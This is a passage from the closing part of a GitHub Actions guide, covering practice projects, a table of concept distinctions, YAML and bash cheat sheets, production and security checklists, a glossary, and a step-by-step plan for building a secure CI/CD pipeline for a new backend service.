- **Success:** median PR CI < 6 minutes; the gate is the only required check; renaming a job does not break protection.
- **Extensions:** shard tests; dependency review; flaky-test quarantine job.

### Project 3: Docker build and push

- **Requirements:** a Dockerfile (multi-stage, non-root), GHCR.
- **Architecture:** metadata, buildx, cache, push on main only.
- **Behavior:** PR builds do not push; main pushes `sha-<short>`; digest is a job output and summary line.
- **Tasks:** Example 3; layer-order optimization.
- **Security:** `packages: write` only on that job; no `latest`; SBOM and provenance.
- **Success:** rebuild after a source-only change takes < 3 minutes; image pulled by digest works.
- **Extensions:** Trivy gate; multi-arch with native runners; sign with Cosign.

### Project 4: Multi-environment deployment

- **Requirements:** dev, staging, production environments; a deploy target (kind, a VM or a PaaS).
- **Architecture:** reusable `deploy.yml`; promotion by digest; production approval.
- **Behavior:** main → dev → staging automatically; production waits for approval.
- **Tasks:** environments with variables and reviewers; reusable core; smoke test; concurrency lock.
- **Security:** environment branch policy; validated inputs; `contents: read`.
- **Success:** the *same digest* is visible in all three deployments; a second concurrent deploy waits.
- **Extensions:** manual `workflow_dispatch` hotfix path; deployment freeze variable.

### Project 5: OIDC cloud deployment

- **Requirements:** a cloud account (free tier acceptable).
- **Architecture:** GitHub OIDC → role/service account/federated credential → deploy.
- **Behavior:** deploy works with no stored cloud secret; a different repo or environment is denied.
- **Tasks:** create the IdP and trust policy; environment-scoped subject; deploy.
- **Security:** never `repo:ORG/*`; least-privilege policy; audit log review.
- **Success:** negative tests fail as expected; there are no cloud secrets in the repo settings.
- **Extensions:** separate plan/apply roles; restrict by reusable workflow (`job_workflow_ref`).

### Project 6: Kubernetes deployment

- **Requirements:** a cluster (kind or managed).
- **Architecture:** Helm chart deployed by digest; rolling update; probes.
- **Behavior:** `--atomic` rollback on failure; smoke test verifies the version.
- **Tasks:** chart with `image.digest` required; values per environment; failing-probe experiment.
- **Security:** namespace-scoped RBAC for the pipeline; no cluster-admin; no secrets in values files.
- **Success:** a bad image auto-rolls back; deployment record shows the digest.
- **Extensions:** canary via Argo Rollouts; GitOps variant with Argo CD.

### Project 7: Reusable organization workflow

- **Requirements:** two consumer repos and a platform repo.
- **Architecture:** versioned `java-ci.yml` and `docker-build.yml`.
- **Behavior:** consumers call by SHA; breaking changes require a major version.
- **Tasks:** inputs/outputs/secrets design; permissions ceiling; Dependabot bump PRs; canary rollout.
- **Security:** explicit secrets, no `inherit`; callers set `permissions`.
- **Success:** a fix in the platform repo reaches both consumers via PRs; a breaking change is caught by canary CI.
- **Extensions:** required workflows via rulesets; catalog documentation.

### Project 8: Secure production CI/CD pipeline

- **Requirements:** combine Projects 2 to 6.
- **Architecture:** Chapter 46 without Terraform.
- **Behavior:** provenance verified before production; scanning gates; SHA-pinned actions enforced by policy and CI; CodeQL for Java and Actions enabled.
- **Tasks:** threat model (Chapter 34) for your pipeline; fix findings from CodeQL/zizmor; attack it (injection, fork PR) and record results.
- **Security:** everything in Chapters 34 to 38.
- **Success:** you can explain, for each job, what it can read and write and who can trigger it.
- **Extensions:** egress control; ephemeral self-hosted runners; SLSA level assessment.

### Project 9: Complete production platform

- **Requirements:** a multi-service repo (or several), Terraform, migrations, notifications, DORA dashboard.
- **Architecture:** Chapters 45 (Pattern E), 46 and 24.
- **Behavior:** infrastructure via plan/apply; app via promotion; migrations expand/contract; rollback rehearsed; metrics exported; on-call notified.
- **Tasks:** build everything; run a game day (bad deploy, bad migration, compromised action drill); write runbooks.
- **Security:** environment-scoped OIDC roles; workflow execution protections; audit alerts.
- **Success:** a new service onboards using templates in under a day; the game-day recoveries meet your targets.
- **Extensions:** progressive delivery with automated analysis; multi-region; policy-as-code.

---

# Part 13: Reference

## Chapter 53. Important Distinctions

Most confusion in GitHub Actions comes from pairs of similar-sounding concepts. Each row gives the difference, then when to use which.

| Pair | Difference | Rule of thumb |
|---|---|---|
| **Artifact vs cache** | Artifact: durable evidence/output of a run, shared between jobs or downloaded. Cache: best-effort speed-up across runs; may vanish. | Correctness needs artifacts or registries; speed uses caches (Chapter 14) |
| **Artifact vs container image** | Actions artifact: run-scoped files with expiry. Container image: layered, registry-hosted, digest-addressed, runnable. | Deploy images, keep artifacts as evidence |
| **Workflow vs job** | Workflow: one YAML file / triggered process. Job: a unit inside it running on one runner. | Workflow = pipeline, job = stage |
| **Job vs step** | Job: has its own runner, filesystem and environment; jobs run in parallel unless `needs`. Step: a command or action within a job's shared workspace, run sequentially. | Need isolation or parallelism? job. Sequence in one environment? step |
| **Action vs command** | Action: reusable packaged unit (`uses:`). Command: shell text (`run:`). | Use an action for packaged behavior (setup, checkout); `run` for your own commands |
| **Composite action vs reusable workflow** | Composite: steps inside a job, called from a step. Reusable workflow: whole jobs, called from a job, can use environments and secrets. | Reuse steps → composite; reuse pipelines → reusable workflow (Chapter 22) |
| **CI vs CD** | CI: integrate and verify frequently, no deployment. CD: deliver/deploy verified artifacts. | Keep them separate workflows/trust zones |
| **Continuous delivery vs continuous deployment** | Delivery: always releasable, a human presses the button. Deployment: every passing change goes to production automatically. | Choose by risk tolerance and test maturity |
| **GitHub environment vs environment variable** | Environment: named deployment target with rules and its own secrets/variables. Environment variable: process variable for a job/step. | Different concepts (Chapter 18.2) |
| **Secret vs variable** | Secret: encrypted, masked. Variable: plain configuration. | Confidential → secret; otherwise variable |
| **Repository vs environment secret** | Repository: available to any permitted workflow run. Environment: released only after environment rules pass. | Production credentials belong in the production environment |
| **GitHub-hosted vs self-hosted runner** | Hosted: fresh VM, GitHub-managed. Self-hosted: your machine, your responsibility. | Default hosted; self-hosted only for network/hardware/compliance, ephemeral |
| **Actions artifact vs artifact repository** | Actions: temporary, run-scoped. Repository (Artifactory/registry): governed, versioned, durable. | Promotion and long-term storage need a repository |
| **GitHub Release vs deployment** | Release: a tagged, versioned snapshot with notes on GitHub. Deployment: an act of putting a version into an environment (tracked as a deployment record). | A release names a version; a deployment places it somewhere |
| **Build vs release** | Build: produce an artifact from a commit. Release: assign a version identity and make it available for deployment. | Build once, release by retagging |
| **Build artifact vs deployment artifact** | Build artifact: compiler output (JAR). Deployment artifact: what the platform consumes (image, chart). | The image, by digest, is the deployment artifact |
| **Tag vs commit SHA** | Tag: mutable pointer (unless protected/immutable) with a human name. SHA: content-derived immutable identifier. | Pin actions by SHA; release with protected tags |
| **`pull_request` vs `pull_request_target`** | Runs PR merge code, unprivileged for forks vs base-branch workflow with privileges | Use `pull_request` unless you are labeling/commenting without running PR code |
| **`GITHUB_TOKEN` vs OIDC token** | Token for GitHub's API scoped to the repo; OIDC token is a signed identity for *external* systems | GitHub API → `GITHUB_TOKEN`; cloud → OIDC |
| **`outcome` vs `conclusion` (step)** | Outcome: result before `continue-on-error`; conclusion: after | Inspect `outcome` to see real failures |
| **Rebuild vs promote** | Rebuild creates a new artifact per environment; promote moves the same digest | Promote |
| **Rollback vs roll-forward** | Rollback: redeploy earlier version. Roll-forward: ship a fix | Rollback apps; roll forward databases and infrastructure |

---

## Chapter 54. Cheat Sheets

### 54.1 Workflow skeleton

```yaml
name: X
run-name: X ${{ github.ref_name }}
on:
  pull_request:
  workflow_dispatch:
permissions:
  contents: read
concurrency:
  group: x-${{ github.ref }}
  cancel-in-progress: true
env:
  TZ: UTC
defaults:
  run:
    shell: bash
jobs:
  job1:
    runs-on: ubuntu-24.04
    timeout-minutes: 15
    steps:
      - uses: actions/checkout@<sha>
        with:
          persist-credentials: false
      - run: ./scripts/build.sh
```

### 54.2 Events

| Need | Event |
|---|---|
| Validate proposed changes | `pull_request` (+ `merge_group`) |
| Build/deploy after merge | `push` (branches: main) |
| Release on version | `push` (tags: `v*.*.*`) or `release: published` |
| Manual run with inputs | `workflow_dispatch` |
| Called by other workflow | `workflow_call` |
| React to another workflow | `workflow_run` (careful) |
| Maintenance | `schedule` (cron, UTC) |
| Bot on issues/PR comments | `issues`, `issue_comment` (untrusted text!) |
| Label/comment on fork PRs (no code run) | `pull_request_target` (dangerous) |

### 54.3 Contexts

`github` (event, ref, sha, actor, repository, run_id, token) · `env` · `vars` · `secrets` · `inputs` · `needs` · `jobs` · `job` · `steps` · `runner` · `strategy` · `matrix`.

### 54.4 Expressions

```text
${{ github.ref == 'refs/heads/main' }}       # strings in single quotes
${{ contains(github.event.pull_request.labels.*.name, 'skip') }}
${{ startsWith(github.ref, 'refs/tags/v') }}
${{ fromJSON(needs.plan.outputs.matrix) }}
${{ hashFiles('**/pom.xml') }}
${{ format('{0}-{1}', a, b) }}   ${{ join(matrix.os, ', ') }}   ${{ toJSON(x) }}
${{ case(cond1, v1, cond2, v2, default) }}
if: ${{ !cancelled() }}   if: ${{ failure() }}   if: ${{ always() }}
```

### 54.5 Permissions

`actions, artifact-metadata, attestations, checks, code-quality, contents, deployments, id-token, issues, discussions, packages, pages, pull-requests, security-events, statuses, vulnerability-alerts`. `permissions: {}` = none. Setting any key zeroes the rest.

### 54.6 Secrets, variables, environments

```yaml
# step level: scope secrets as narrowly as possible
env:
  TOKEN: ${{ secrets.TOKEN }}
# non-secret configuration
#   ${{ vars.AWS_REGION }}
# job level
environment:
  name: production
  url: ${{ steps.deploy.outputs.url }}
```

### 54.7 Concurrency

```yaml
# pull request: cancel superseded runs
concurrency:
  group: ci-${{ github.event.pull_request.number || github.ref }}
  cancel-in-progress: true
```

```yaml
# deployment: serialize, never cancel a running deploy
concurrency:
  group: deploy-production
  cancel-in-progress: false
```

```yaml
# deployment: strict ordering queue (up to 100 pending)
concurrency:
  group: deploy-production
  queue: max
```

### 54.8 Matrix

```yaml
strategy:
  fail-fast: false
  max-parallel: 4
  matrix:
    java: ['17', '21']
    include: [{ java: '25', experimental: true }]
    exclude: [{ java: '17', os: windows-2025 }]
```

### 54.9 Artifacts and caching

```yaml
- uses: actions/upload-artifact@<sha>
  with:
    name: reports
    path: '**/target/surefire-reports/'
    retention-days: 14
- uses: actions/download-artifact@<sha>
  with:
    pattern: reports-*
    merge-multiple: true
- uses: actions/setup-java@<sha>
  with:
    distribution: temurin
    java-version: '21'
    cache: maven
- uses: actions/cache@<sha>
  with:
    path: ~/.m2/repository
    key: m2-${{ runner.os }}-${{ hashFiles('**/pom.xml') }}
    restore-keys: |
      m2-${{ runner.os }}-
```

### 54.10 Reusable workflows and composite actions

```yaml
# callee
on:
  workflow_call:
    inputs:
      java-version:
        type: string
        default: '21'
    secrets:
      TOKEN:
        required: false
    outputs:
      digest:
        value: ${{ jobs.build.outputs.digest }}
```

```yaml
# caller
jobs:
  ci:
    uses: ORG/platform/.github/workflows/ci.yml@<sha>
    with:
      java-version: '21'
    secrets:
      TOKEN: ${{ secrets.TOKEN }}
```

```yaml
# composite action (action.yml)
runs:
  using: composite
  steps:
    - shell: bash
      run: echo hi
```

### 54.11 Docker

```yaml
- uses: docker/setup-buildx-action@<sha>
- uses: docker/login-action@<sha>
  with:
    registry: ghcr.io
    username: ${{ github.actor }}
    password: ${{ secrets.GITHUB_TOKEN }}
- uses: docker/build-push-action@<sha>
  with:
    context: .
    push: true
    tags: ghcr.io/org/app:sha-${{ github.sha }}
    cache-from: type=gha
    cache-to: type=gha,mode=max
    provenance: mode=max
    sbom: true
```

### 54.12 OIDC

```yaml
permissions:
  id-token: write
  contents: read
steps:
  - uses: aws-actions/configure-aws-credentials@<sha>
    with:
      role-to-assume: ${{ vars.AWS_ROLE_ARN }}
      aws-region: eu-west-1
```

Trust policy: `aud` exact; `sub` = `repo:ORG/REPO:environment:NAME`; never wildcard the repo.

### 54.13 Deployment

```bash
helm upgrade --install app ./chart -n ns --set image.digest=sha256:... --atomic --wait --timeout 10m
kubectl -n ns rollout status deploy/app --timeout=300s
kubectl -n ns rollout undo deploy/app
helm rollback app <revision> -n ns --wait
```

### 54.14 Debugging

```bash
gh run list --workflow ci.yml
gh run view <id> --log-failed
gh run rerun <id> --failed
gh workflow run deploy.yml -f environment=staging
actionlint            # lint workflows
zizmor .github        # security lint
# UI: "Re-run with debug logging" / ACTIONS_STEP_DEBUG=true
```

### 54.15 Workflow commands

```bash
echo "name=value" >> "$GITHUB_OUTPUT"
echo "NAME=value"  >> "$GITHUB_ENV"
echo "/path"       >> "$GITHUB_PATH"
echo "### Title"   >> "$GITHUB_STEP_SUMMARY"
echo "::add-mask::$VALUE"
echo "::error file=A.java,line=3::message"
```

---

## Chapter 55. Production Checklists

Copy these into your repository wiki or issue templates.

### 55.1 Workflow review checklist

```text
[ ] Correct trigger; no accidental triggers; filters do not skip required checks
[ ] Explicit permissions at workflow and job level; least privilege
[ ] Actions pinned to full SHAs; Dependabot configured
[ ] No untrusted expressions in run: scripts; validated inputs
[ ] Secrets step-scoped; no secrets in untrusted-code workflows
[ ] timeout-minutes on every job; concurrency defined intentionally
[ ] Runner label pinned; caches safe; artifacts curated
[ ] Failure behavior and notifications defined
[ ] actionlint and zizmor pass
```

### 55.2 CI checklist

```text
[ ] Runs on pull_request and merge_group with no secrets
[ ] Format, lint, unit, integration in parallel where possible
[ ] Real database engine/version for integration tests; migrations tested
[ ] Reports uploaded on failure (!cancelled())
[ ] Superseded PR runs cancelled
[ ] Single "CI gate" required check; no workflow-level paths filter on required workflows
[ ] Dependency review and static analysis enabled
[ ] Median CI time tracked; flaky tests tracked
```

### 55.3 Docker checklist

```text
[ ] Multi-stage Dockerfile, pinned base image, non-root user, .dockerignore
[ ] Build with Buildx; layer cache configured
[ ] No latest tag; sha/version tags; digest recorded as output
[ ] Registry credentials scoped (packages: write / OIDC push-only role)
[ ] Vulnerability scan by digest with a defined threshold
[ ] SBOM and provenance/signature produced; verified before production
[ ] Tag immutability and retention policy configured in the registry
[ ] No secrets in build args or layers (use BuildKit secrets)
```

### 55.4 Deployment checklist

```text
[ ] Deploy by immutable digest; promote, do not rebuild
[ ] Environment with protection rules and branch/tag policy
[ ] Job-level concurrency per environment; cancel-in-progress false
[ ] Previous version captured; rollback tested
[ ] Smoke test verifies the new version is serving
[ ] Migrations run before deploy, are backward compatible, serialized, approved
[ ] Notifications for start/success/failure/rollback
[ ] Deploy identity (OIDC role) least privilege and separate from build
```

### 55.5 Production release checklist

```text
[ ] Tag follows semver; tag ruleset restricts creation
[ ] Commit on main; image for that commit already built and scanned
[ ] Provenance verified; release notes generated
[ ] Staging tests passed for this exact digest
[ ] Approvers available; change window/freeze checked
[ ] Rollback digest identified and still in the registry
[ ] Monitoring dashboards open; deployment marker will be sent
[ ] Post-deploy smoke and SLO watch window defined
```

### 55.6 Security checklist

```text
[ ] Default GITHUB_TOKEN read-only; Actions cannot approve PRs
[ ] Fork workflow approval required; pull_request_target avoided/restricted
[ ] SHA pinning policy enforced; action allowlist set
[ ] CodeQL (Java and Actions), dependency review, secret scanning + push protection on
[ ] CODEOWNERS on .github/; rulesets on main and tags
[ ] Secrets only in environments where possible; rotation plan; OIDC instead of keys
[ ] Ephemeral runners; runner groups restricted; egress controlled for sensitive jobs
[ ] Audit log alerts for secret/settings/runner changes
```

### 55.7 OIDC checklist

```text
[ ] id-token: write only on jobs that need it
[ ] Trust policy checks aud AND sub (exact repo, environment/ref)
[ ] No wildcard organization/repo subjects
[ ] Separate roles: plan vs apply, build vs deploy, per environment
[ ] IAM policies least privilege; short sessions
[ ] Cloud audit logs monitored for unexpected subjects
[ ] Role ARNs/IDs stored as variables, not secrets
[ ] Negative test done: wrong repo/branch/environment is denied
```

### 55.8 Self-hosted runner checklist

```text
[ ] Justified vs GitHub-hosted (network, hardware, compliance)
[ ] Ephemeral/JIT runners (ARC or equivalent); no persistent state
[ ] Not used by public repositories or untrusted forks
[ ] Runner groups restrict which repositories can use them
[ ] Network: default-deny egress, dedicated subnet; no access to metadata credentials
[ ] No long-lived credentials on the host
[ ] OS/tool patching and image rebuild cadence defined
[ ] Capacity and queue-time monitoring; disk cleanup
```

### 55.9 Incident response checklist (compromised action or leaked secret)

```text
[ ] Declare incident; freeze deployments (DEPLOY_FREEZE=true) if needed
[ ] Identify exposure window and affected workflows/runs
[ ] Rotate ALL secrets those runs could access; revoke tokens; disable exposed cloud roles
[ ] Review cloud audit logs (role assumptions, unusual API calls) and GitHub audit log
[ ] Check what GITHUB_TOKEN could write: commits, releases, packages, workflow files
[ ] Pin/replace the affected action; add pinning policy if missing
[ ] Rebuild artifacts from a clean state; revoke tainted images/releases
[ ] Delete logs that exposed secrets (after rotation)
[ ] Write a postmortem; add a detection or a preventive control
```

### 55.10 Workflow debugging checklist

```text
[ ] Did it trigger? (file location, on:, filters, default-branch requirement, approval)
[ ] Did it start? (YAML errors, context availability, runner labels/groups)
[ ] Did steps run? (job conditions, needs, matrix, concurrency cancellation)
[ ] Read the FIRST error, not the last
[ ] Enable debug logging; print safe context via env + toJSON
[ ] Reproduce the script locally; test on a branch with workflow_dispatch
[ ] Check permissions, secrets scope, environment, OIDC sub
[ ] Compare with the last green run: what changed (SHA, runner image, action version, cache)?
[ ] Fix the cause, add a guard (test/lint), document
```

---

## Chapter 56. Glossary

| Term | Meaning |
|---|---|
| **Action** | A reusable unit of work invoked with `uses:`; JavaScript, Docker or composite |
| **Artifact (Actions)** | Files produced by a run, stored by GitHub with retention |
| **Artifact attestation** | Signed statement (for example provenance) about an artifact, verifiable with `gh attestation verify` |
| **ARC (Actions Runner Controller)** | Kubernetes operator that autoscales ephemeral self-hosted runners |
| **Blue-green deployment** | Two environments, traffic switched between them |
| **Branch protection / ruleset** | Repository rules governing merges, checks and pushes |
| **Cache** | Best-effort stored directories keyed for reuse across runs |
| **Canary** | Gradual rollout to a small share of traffic first |
| **CI / CD** | Continuous integration / continuous delivery or deployment |
| **Composite action** | An action made of steps in `action.yml` (`using: composite`) |
| **Concurrency group** | A string identifying runs/jobs that must not run simultaneously |
| **Context** | Read-only object with run data (`github`, `env`, `secrets`, ...) |
| **Continue-on-error** | Marks a step/job failure as non-fatal |
| **Deployment (GitHub)** | A record of a version being deployed to an environment |
| **DORA metrics** | Deployment frequency, lead time, change failure rate, time to restore |
| **Environment** | Named deployment target with protection rules, secrets and variables |
| **Event** | Something that triggers a workflow (`push`, `pull_request`, ...) |
| **Expand and contract** | Migration pattern adding new schema before removing old, over separate releases |
| **Expression** | `${{ ... }}` evaluated by GitHub before/while running |
| **Fork PR** | A pull request from a copy of the repository; treated as untrusted |
| **GITHUB_TOKEN** | Auto-generated per-job token for the GitHub API |
| **GitOps** | Cluster state reconciled from Git by an in-cluster controller (Argo CD, Flux) |
| **Immutable release** | Release/tag that cannot be altered after publication |
| **Job** | Set of steps running on one runner |
| **JIT runner** | Self-hosted runner registered for a single job via API |
| **Matrix** | Strategy generating job variants from variable combinations |
| **Merge queue** | Serializes merges, testing each PR against latest base plus queued PRs |
| **OIDC** | OpenID Connect; used to obtain short-lived cloud credentials without stored secrets |
| **Output** | Value produced by a step or job for later use |
| **Provenance (SLSA)** | Verifiable record of how an artifact was built |
| **Pwn request** | Attack via privileged `pull_request_target` running untrusted code |
| **Required check** | Status that must pass before merging |
| **Reusable workflow** | Workflow with `workflow_call`, invoked from a job |
| **Runner** | Machine that executes a job (GitHub-hosted or self-hosted) |
| **Runner group** | Access-controlled set of self-hosted or larger runners |
| **SARIF** | Format for static-analysis results uploaded to code scanning |
| **SBOM** | Software bill of materials |
| **Secret** | Encrypted, masked sensitive value |
| **Service container** | Sidecar container (database, cache) for a job |
| **SHA pinning** | Referencing an action by its full commit hash |
| **Smoke test** | Minimal post-deploy check of critical functionality |
| **Step** | Single command or action within a job |
| **Trigger** | See event |
| **Variable (configuration)** | Non-secret named value in `vars` |
| **Workflow** | YAML automation process in `.github/workflows` |
| **Workflow command** | Special output (`::error::`, `$GITHUB_OUTPUT`) parsed by the runner |
| **workflow_dispatch** | Manual/API trigger with inputs |
| **workflow_run** | Trigger fired by another workflow's activity |

---

# Part 14: Putting It All Together

## Chapter 57. How I Would Design GitHub Actions for a New Production Backend

You are handed an empty repository for a new backend service and told to make it production-ready. This is the sequence I would follow, and why the order matters. Each step names the chapter with details.

1. **Clarify requirements.** Team size, release cadence, compliance, cloud, runtime (Kubernetes/ECS/VM), data stores, who approves production, target lead time. *These decide continuous delivery vs deployment and how heavy the pipeline needs to be.* (Chapters 30, 45, 47)
2. **Choose the branching strategy.** Default: GitHub Flow with short branches, merge queue, deploy from `main`; tags for releases only if you need versions. (Chapter 43)
3. **Set up repository security first**, before any workflow: default `GITHUB_TOKEN` read-only, Actions cannot approve PRs, fork-run approval, SHA-pinning policy and action allowlist, secret scanning with push protection, Dependabot, CODEOWNERS for `.github/`, rulesets on `main` and tags. Security posture is hardest to add later. (Chapters 24, 37, 43)
4. **Design environments.** `dev`, `staging`, `production` (plus `production-db` if migrations are separately approved), each with variables named identically, reviewers only where the risk justifies them, and branch policies limited to `main`. (Chapter 18)
5. **Design cloud identity.** OIDC provider and one role per purpose and environment: build (push-only), deploy (per environment), migration, Terraform plan (read-only) and apply. Bind trust to repository and environment. No stored cloud secrets. (Chapter 25)
6. **Create the CI workflow.** PR and merge-queue triggered; format, lint, unit, integration (real database), dependency review; caching; timeouts; concurrency; single **CI gate** as the required check. (Chapters 27, 28)
7. **Add security scanning.** CodeQL for the application language and for Actions, dependency review, secret scanning, workflow linting (`actionlint`, `zizmor`), pinned-action check; scheduled scans for newly disclosed CVEs. (Chapters 35 to 38)
8. **Create the container build workflow.** Multi-stage Dockerfile; Buildx; cache; push by digest; scan by digest; SBOM and provenance; registry immutability and retention. (Chapter 29)
9. **Create the deployment workflow** as one reusable core: OIDC, deploy by digest, atomic rollout, smoke test with version check, automatic rollback, per-environment concurrency, job summary. (Chapters 30, 31, Example 6)
10. **Add the promotion pipeline.** `pipeline.yml` chains build → dev → staging → tests → provenance check → production, using the same digest and the same deploy core. (Chapter 46)
11. **Add database migration handling.** Migrations in a separate serialized, approved job before deploy; expand/contract discipline; snapshot before risky production changes; test migrations in CI from the previous schema. (Chapter 32)
12. **Add rollback.** Automated inside deploy; manual workflow that redeploys a known digest through the same path; rehearse it in staging. (Chapter 33)
13. **Add notifications.** Production started/succeeded/failed/rolled back to the team channel; failures on `main`; scheduled job failures; none for routine PR passes. (Chapter 40)
14. **Add observability.** Job summaries, deployment markers in your monitoring tool, exported workflow metrics, DORA dashboard, alerts on default-branch failures and runner capacity. (Chapter 39)
15. **Optimize performance and cost.** Measure the critical path, then cache, parallelize, shard and trim the matrix; cancel superseded PR runs; keep PR CI fast and put broad checks on schedules. (Chapter 42)
16. **Add infrastructure automation** if you own infrastructure: Terraform plan on PR (read-only), apply after approval with a saved plan, separate roles, serialized state. (Examples 11, 12)
17. **Create reusable workflows** as soon as a second service appears, not before; version them, pin consumers to SHAs, and canary changes. (Chapters 21, 24)
18. **Document and train.** README with pipeline diagram, runbooks (deploy, rollback, incident, debugging), ownership, and a "how to add a service" guide. (Chapters 41, 55)
19. **Review regularly.** Quarterly: permissions, secrets, runners, action pins, flaky tests, cost, DORA trends, an access review of environment approvers.
20. **Practice failure.** Game days: bad deploy, failed migration, leaked secret, compromised action, runner outage. A pipeline you have never seen fail is a pipeline you do not understand. (Chapters 50, 55.9)

**The one-paragraph version.** Build once, tag by digest, promote the same artifact through protected environments, authenticate with OIDC instead of stored secrets, give every job the least privilege it needs, treat every event payload and third-party action as untrusted, pin what you depend on, verify what you deploy, keep migrations backward compatible so app rollbacks are always available, and measure the system so you can improve it. Everything else in this guide is detail in service of those sentences.

---

## Where to go next

- **Official documentation** (always the tie-breaker): docs.github.com/actions, including *Workflow syntax*, *Contexts*, *Expressions*, *Security hardening*, *Secure use reference*, *OpenID Connect*, *Usage limits*.
- **Security tooling:** `actionlint`, `zizmor`, CodeQL for GitHub Actions, OpenSSF Scorecard.
- **Standards:** SLSA, OpenSSF guidance, DORA research.
- **Recommended practice:** re-read Chapters 34 to 38 and Chapter 48 every time you write a new workflow. Run the review checklist on your own pipelines.

*End of guide.*
